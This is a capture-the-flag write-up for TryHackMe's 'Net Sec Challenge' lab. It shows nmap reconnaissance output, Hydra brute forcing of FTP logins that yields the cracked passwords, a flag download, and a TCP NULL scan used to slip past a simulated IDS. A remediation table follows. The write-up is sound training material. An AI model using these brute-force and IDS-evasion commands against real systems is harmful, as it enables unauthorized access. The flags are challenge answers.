





# Net Sec Challenge — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.65.149.105 | **Attacker IP:** 192.168.131.193

## Machine info



## Summary

**Net Sec Challenge** is a TryHackMe machine built around network enumeration and credential attacks, combining a full Nmap port scan and service banner analysis with FTP credential brute forcing, and closing with a small challenge that requires evading a simulated IDS.

**Attack chain:** Full port scan and service enumeration → FTP credential brute forcing with Hydra → target file retrieval via FTP → IDS evasion with a TCP NULL scan

## 1. Reconnaissance

A full TCP port scan with service and script detection was run against the target:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.65.149.105

PORT      STATE SERVICE     REASON         VERSION
22/tcp    open  ssh         syn-ack ttl 62 (protocol 2.0)
| ssh-hostkey: 
|   3072 fe:c8:d5:85:b3:fa:f9:4e:24:b4:9e:c3:bd:99:8e:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDPQDsCfKRJUqRHG9fgkVhEFDsaYyhWGCZxvhNi4uLwtJ4iR8K5tIq6od9aNqcD3R1LoOr5LtkMt6MgyK8EHVeAz9V9OVXZwO/X8IGgJPHqSVCGf+oMntP8/8N8B5u/deAwFcAOsNndS+dJ2RGM5rFP9JzmlMQuumU/His0xoWW10qXGpzW8gbxqBWJUAidjFvF2+SG971sCZ9EyarOt+tgVwh4IrmMLQJAdyZTFTd8a1ZJQDkr1nm9X0fBChWIf1eXzrKJCue5TfxMT8WxY6up/0QWJQ21JBXtca6Ocft+R2WebTxwz5FGXHa+I3yEpF/cbHCfh2S2Ni4nuKWPFKEz7ftS/W5/HfZMfU8lzIu+7LmhBA36VmGsEfyGwsEK0mV29uXnkOHPmav1G00yWyMzp7IbE9UQG7L7nd+5z6+mD/+rhaCOvl6llsZXtvt77k/h7C9qrMzB3Ri1D8Y5WRq+75Zw6A/Vidf+UgKqliLGyfTqmHZycw880Usll2gh7X0=
|   256 aa:7c:a3:b2:a5:d5:a6:54:f3:ef:c5:d8:89:42:2a:ff (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJRNzcBt+916/ricLGKu+HK2+q32kZhSSNMSuEnW262rgZZKVuAurEQHfwsgkA57H05ZsLxHSaGJAe3DbxrkvdU=
|   256 8e:96:a8:8d:fb:0e:e3:85:6c:5b:5f:ff:a3:d1:a0:0d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIyEK+ZxGooagZt7QO1ckoXXVN+DiK4+WvAvXpjFsI8g
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 THM{946219583339}
80/tcp    open  http        syn-ack ttl 62 THM{MySpecialServer007}
|_http-title: Welcome
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html
|     Content-Length: 341
|     Connection: close
|     Date: Mon, 16 Nov 2026 22:34:37 GMT
|     Server: THM{MySpecialServer007}
|     <?xml version="1.0" encoding="iso-8859-1"?>
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
|     "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
|     <head>
|     <title>404 Not Found</title>
|     </head>
|     <body>
|     <h1>404 Not Found</h1>
|     </body>
|     </html>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Vary: Accept-Encoding
|     Content-Type: text/html
|     Accept-Ranges: bytes
|     ETag: "575357650"
|     Last-Modified: Tue, 24 Feb 2026 06:00:52 GMT
|     Content-Length: 220
|     Connection: close
|     Date: Mon, 16 Nov 2026 22:34:32 GMT
|     Server: THM{MySpecialServer007}
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <title>Welcome</title>
|     <meta charset="UTF-8" />
|     <meta name="viewport" content="width=device-width,initial-scale=1" />
|     </head>
|     <body>
|     <h1>Hello, world!</h1>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: OPTIONS, GET, HEAD, POST
|     Content-Length: 0
|     Connection: close
|     Date: Mon, 16 Nov 2026 22:34:32 GMT
|     Server: THM{MySpecialServer007}
|   RTSPRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/html
|     Content-Length: 345
|     Connection: close
|     Date: Mon, 16 Nov 2026 22:34:32 GMT
|     Server: THM{MySpecialServer007}
|     <?xml version="1.0" encoding="iso-8859-1"?>
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
|     "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
|     <head>
|     <title>400 Bad Request</title>
|     </head>
|     <body>
|     <h1>400 Bad Request</h1>
|     </body>
|_    </html>
|_http-server-header: THM{MySpecialServer007}
139/tcp   open  netbios-ssn syn-ack ttl 62 Samba smbd 4
445/tcp   open  netbios-ssn syn-ack ttl 62 Samba smbd 4
8081/tcp  open  http        syn-ack ttl 62 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
10001/tcp open  scp-config? syn-ack ttl 62
10121/tcp open  ftp         syn-ack ttl 62 vsftpd 3.0.5
Service Info: OS: Unix

Host script results:
|_clock-skew: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 34293/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 2 (port 45647/tcp): CLEAN (Couldn't establish connection (ERROR))
|   Check 3 (port 53786/udp): CLEAN (Couldn't receive bytes: ERROR)
|   Check 4 (port 48891/udp): CLEAN (Couldn't receive bytes: ERROR)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-11-16T22:37:09
|_  start_date: N/A
| nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   <00>                 Flags: <unique><active>
|   <03>                 Flags: <unique><active>
|   <20>                 Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

The scan found 7 open TCP ports. The SSH service on port `22` returned a banner containing `THM{946219583339}`, and the HTTP service on port `80` returned `THM{MySpecialServer007}` in its `Server` header. Browsing to the service on port `80` showed a simple page:



Ports `139` and `445` exposed `Samba smbd 4`, port `8081` ran a Node.js/Express application, and port `10001` ran an unidentified `scp-config?` service — none of these were pursued further. Port `10121` was running `vsftpd 3.0.5` on a nonstandard port, which the next section targets directly.

## 2. FTP Credential Brute Forcing

Social engineering had already produced two valid FTP usernames, `eddie` and `quinn`. Both were brute forced against the FTP service on port `10121` with `Hydra` and the `rockyou.txt` wordlist, returning a valid password for each:

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://10.65.149.105:10121

[10121][ftp] host: 10.65.149.105   login: eddie   password: softball
[10121][ftp] host: 10.65.149.105   login: quinn   password: cookie
```

Logging in as `eddie` showed an empty directory, a dead end. Logging in as `quinn` instead listed `ftp_flag.txt`, which was downloaded with `get`:



## 3. IDS Evasion Challenge

Browsing to `http://10.65.149.105:8081` revealed a small IDS simulator, requiring a scan of the target that kept the reported detection chance at 0%.



A TCP NULL scan, which sends no TCP flags at all, satisfied the simulator without needing to slow the scan down:

```
nmap -sN 10.65.149.105

PORT      STATE         SERVICE
22/tcp    open|filtered ssh
80/tcp    open|filtered http
139/tcp   open|filtered netbios-ssn
445/tcp   open|filtered microsoft-ds
8081/tcp  open|filtered blackice-icecap
10001/tcp open|filtered scp-config
```



## Root Cause & Remediation

| Issue | Fix |
|---|---|
| FTP accounts `eddie` and `quinn` used weak, dictionary-crackable passwords | Enforce a strong password policy and lock out accounts after repeated failed login attempts |
| Service banners (SSH version string, HTTP `Server` header) disclosed sensitive values | Suppress or mask version banners and custom headers in production services |
| FTP transmits credentials and files in cleartext | Replace plain FTP with an encrypted alternative such as SFTP or FTPS |
| The IDS only flagged SYN-based scans, missing TCP NULL/FIN/Xmas scans | Tune IDS/IPS signatures to detect anomalous TCP flag combinations, not only SYN packets |
